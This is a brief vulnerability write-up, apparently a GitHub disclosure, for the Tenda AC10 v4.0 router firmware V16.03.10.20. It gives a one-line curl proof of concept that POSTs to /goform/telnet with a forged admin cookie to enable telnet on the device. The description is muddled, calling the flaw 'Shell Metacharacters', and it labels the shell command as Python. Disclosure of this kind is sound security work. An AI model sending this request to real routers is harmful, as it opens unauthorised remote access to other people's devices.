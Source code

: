 # TendaAC10v16.03.10.20telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103684

## Affected version

AC10v4.0 V16.03.10.20

## Vulnerability details

An issue was discovered in AC10v4.0 V16.03.10.20 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736439948488](/img/1736439948488.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736440027143](/img/1736440027143.png)

